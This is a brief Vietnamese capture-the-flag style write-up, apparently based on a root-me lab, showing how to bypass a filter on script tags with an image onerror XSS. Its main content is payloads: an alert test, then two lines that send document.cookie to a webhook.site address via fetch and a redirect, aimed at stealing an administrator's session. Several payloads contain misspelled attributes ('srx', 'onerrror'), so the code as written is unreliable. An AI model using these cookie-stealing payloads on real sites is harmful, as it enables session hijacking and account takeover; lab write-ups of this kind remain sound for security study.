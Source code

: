 Xin chào các bạn thì đây là chuỗi các bài mình sưu tầm được các bạn theo dõi nha :3
 
Thì bài đầu tiên nó y sì như cái lab trong root-me
Một bài xss đã fillter đi thẻ <script> rồi

-- Nên mình sẽ thử dùng thuộc tính onerror của ảnh để thực hiện injection

Payload:
                                        <img srx=x onerrror=alert('hihihi') />
Thì thành công nên bây giờ mình sẽ gửi report này cho admin


url?params=<img srx=x onerrror=fetch(`http://webhook.site/38bc6754-b246-4dbf-b3ab-5d0bfc9a62dd?a=${document.cookie}`) />
hay ta ó thể dùng payload như sau:
                                         url?params=<img srx=x onerrror=location.href=`http://webhook.site/38bc6754-b246-4dbf-b3ab-5d0bfc9a62dd?a=${document.cookie}` />

Và kết quả đã được gửi đến bên webhook

Chúc bạn thành công
